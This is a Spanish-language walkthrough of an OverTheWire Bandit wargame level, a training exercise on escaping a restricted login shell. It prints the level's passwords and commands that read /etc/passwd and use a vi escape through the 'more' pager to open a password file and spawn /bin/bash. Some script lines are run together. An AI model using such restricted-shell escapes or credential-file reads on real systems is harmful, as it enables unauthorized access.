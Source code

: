 # Bandit

## Objetivo
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de acceso
bandit25
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

## Solución 
```bash
bandit25@bandit:~$ ls  
bandit26.sshkey  
bandit25@bandit:~$
bandit25@bandit:~$ ssh bandit26@localhost -i bandit26.sshkey
bandit25@bandit:~$ cat /etc/passwd | grep bandit26  
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext  
bandit25@bandit:~$
bandit25@bandit:~$ cat /usr/bin/showtext  
#!/bin/shexport TERM=linuxmore ~/text.txt  
exit 0  
bandit25@bandit:~$
:e /etc/bandit_pass/bandit26
:set shell=/bin/bash
_5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z_
```

## Notas adicionales

## Referencias